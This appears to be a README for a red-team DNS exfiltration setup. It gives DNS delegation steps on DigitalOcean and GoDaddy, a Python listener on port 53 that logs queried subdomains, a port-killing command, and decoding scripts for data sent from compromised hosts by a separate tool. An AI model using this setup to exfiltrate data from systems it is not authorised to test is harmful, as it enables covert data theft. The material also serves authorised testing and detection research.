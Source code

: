 # DNS Exfiltration
Notes and custom scripts for DNS exfiltration using DigitalOcean and GoDaddy.

-------------------------------------------

### DigitalOcean

Create a project, connect the GoDaddy's domain to it and create a droplet.

![img2b](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2b.png)

Then, add the following DNS records:

- "A" record for your domain, for example "domain.com", pointing to the droplet's IP address.
- "A" record for subdomain "ns" pointing to the droplet's IP address.
- "NS" record for a subdomain, for example "steve", pointing to the droplet's IP address.
   - NOTE: This is the subdomain we will use for DNS exfiltration.
- "NS" record redirecting to ns1.digitalocean.com (if not already in there).
- "NS" record redirecting to ns2.digitalocean.com (if not already in there).
- "NS" record redirecting to ns3.digitalocean.com (if not already in there).

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_3.png)

-------------------------------------------

### GoDaddy

After purchasing a domain in GoDaddy, visit the "DNS Management" section ([https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns](https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns)). You have to add an entry in the "Hostname" subsection, which will contain the host "ns" and will point to your DigitalOcean droplet's IP address:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_1.png)

Then, in "Nameservers" subsection, add the DigitalOcean nameservers if they are not already in there (ns1.digitalocean.com, ns2.digitalocean.com and ns3.digitalocean.com):

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2.png)


-------------------------------------------

### Testing DNS exfiltration

We can now run a Python script to start monitoring DNS queries to the subdomains "*.steve.domain.com": 

```python
import socket
from dnslib import DNSRecord

ns_subdomain = ".steve"

server = socket.socket (socket.AF_INET, socket.SOCK_DGRAM)
server.bind(('0.0.0.0', 53))

while True:
  data, addr = server.recvfrom (4096)
  d = DNSRecord.parse(data)
  subdomain = str(d.questions[0]._qname).split(ns_subdomain)[0]
  print("Subdomain: " + subdomain)
```

It must be run as superuser and the port 53 is probably already in use so first we can stop any process using that port with:

```
fuser -k 53/udp
```

For example, if your domain is "domain.com" and the record added to DigitalOcean is "steve", we could run a DNS query (from any system) to the subdomain "test.steve.domain.com". If everything is correct, we should see an output similar to this: 

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_5.png)

However even with a simple "nslookup test.steve.domain.com" command we will find that there are too many queries and they get repeated, so we will use custom scripts to monitor these DNS queries.

-------------------------------------------

### Custom Scripts

If everything works fine, we can run the custom script dns.py where you can set the subdomain to monitor with the parameter -s and a file to store the program output with the parameter -l:

```
python3 dns.py [-s SUBDOMAIN] [-l LOGFILE]
```

Then, the output can be decoded using the custom script decode.py, where you can set a filter with a list of comma-separated minutes from the log file with the parameter -f and the log file to read from with the parameter -l. The implemented decoding function decodes Base64 but you can change it depending on how you encode the exfiltrated data:

```
python3 decode.py -f FILTER_MINUTES -l LOGFILE
```

As an example, I run the [SharpCovertTube](https://github.com/ricardojoserf/SharpCovertTube) program which exfiltrates the command output from the compromised system via DNS, generating several queries:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_6.png)

These queries are received by dns.py, which is monitoring the subdomains "*.steve.domain.com", and get stored in the file log.txt:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_7.png)

Then we can Base64-decode the DNS queries received in the minute 11:08 and stored in log.txt:

![img8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_8.png)


------------------------

### Sources

- [https://john-woodman.com/research/dns-exfiltration-setup/](https://john-woodman.com/research/dns-exfiltration-setup/)
